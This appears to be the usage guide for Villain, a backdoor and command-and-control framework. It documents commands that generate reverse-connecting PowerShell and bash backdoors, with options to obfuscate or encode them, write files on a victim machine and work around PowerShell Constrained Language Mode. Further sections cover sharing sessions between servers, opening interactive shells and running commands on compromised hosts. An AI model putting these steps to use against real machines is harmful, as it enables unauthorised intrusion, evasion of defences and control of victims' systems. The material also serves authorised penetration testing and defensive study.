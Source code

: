 # Usage Guide
:warning: Villain was explicitly developed and tested on **kali linux**.  
:warning: This guide is a work in progress currently describing key features. Check out Villain's introduction on YouTube for more info.

## Table of contents
1. [Generate Backdoor Payloads](Generate-Backdoor-Payloads)
2. [Connect With Sibling Server](Connect-With-Sibling-Server)
3. [The shell Command](The-shell-Command)
4. [The exec Command](The-exec-Command)

## Generate Backdoor Payloads
Use the "generate" prompt command to generate backdoor payloads for Windows or Linux machines. 

```
generate os=<OS Type> lhost=<IP or INTERFACE> [ exec_outfile=<REMOTE PATH> domain=<DOMAIN>] [ obfuscate encode constraint_mode ]
```
Each generated payload is going to work only once. An already used payload cannot be reused to establish a session.
The backdoors are designed to start as new background processes. Currently supported types of backdoors:  
 - for Windows: Powershell 
 - for Linux: bash

#### Available arguments for the "generate" prompt command:
|    Argument     | Required | Supported OS | Requires Input Val | Description                                                                                                                                             |
|:---------------:|:--------:|:------------:|:------------------:|---------------------------------------------------------------------------------------------------------------------------------------------------------|
|       os        |   True   |     All      |        Yes         | The OS type to generate backdoor for [windows/linux].                                                                                                   |
|      lhost      |   True   |     N/A      |        Yes         | Your local IP or Interface to connect back.                                                                                                             |
|     domain      | Depends  |     N/A      |        Yes         | If you have provided trusted cert and priv_key files to start Villain with SSL, you can provide domain instead of lhost.                                |
|    obfuscate    |  False   |   Windows    |         No         | Auto-obfuscate the generated payload. This aims to assist you, not always do the job for you.                                                           |
|     encode      |  False   |   Windows    |         No         | Base64 encode the generated payload.                                                                                                                    |
|  exec_outfile   |  False   |   Windows    |        Yes         | Provide a file path on the victim to write & execute commands from (instead of using IEX)                                                               |
| constraint_mode |  False   |   Windows    |         No         | Make the generated payload work on PowerShell Constraint Language Mode. By using this option you sacrifice a bit of the decoding clarity of your shell. |

#### Examples:
```
# For Windows:
Villain > generate os=windows lhost=eth0 obfuscate
Villain > generate os=windows lhost=192.168.12.36 exec_outfile="C:\Users\\\$env:USERNAME\.local\hack.ps1" encode

# For Linux:
Villain > generate os=linux lhost=192.168.12.62
```

## Connect With Sibling Server
Use the `connect` prompt command to connect and share your backdoor sessions with another machine running Villain. 
```
connect <IP> <CORE SERVER PORT>
```
By default, the Core server port is `65001` (you can change that with `-p` when starting Villain).

## The shell Command
Use the `shell` prompt command to start an interactive HoaxShell against a session. 
```
shell <SESSION ID or ALIAS>
```
Press Ctrl + C or type `exit` to return to the main Villain prompt.

## The exec Command
Use the `exec` prompt command to execute a **quoted command** or **script from your file system** against a session. 
```
exec </path/to/local/file> <SESSION ID or ALIAS>
exec 'net user;Get-Date' <SESSION ID or ALIAS>
```
